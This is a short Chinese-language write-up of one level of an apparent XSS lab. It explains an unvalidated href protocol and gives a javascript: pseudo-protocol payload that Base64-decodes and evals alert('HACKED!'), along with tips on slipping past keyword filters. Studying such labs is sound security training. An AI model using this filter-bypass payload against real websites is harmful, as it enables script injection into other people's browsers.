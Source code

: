 
### **第4关：伪协议执行**
#### **漏洞点分析**
```html
跳转链接
```
未验证href协议类型

#### **复现Payload**
```javascript
javascript:eval(atob('YWxlcnQoJ0hBQ0tFRCEnKQ==')) 
```
**高阶技巧**：
- 使用Base64编码绕过简单关键字过滤
- 配合伪协议执行解码操作


![alt](第四关.jpeg)
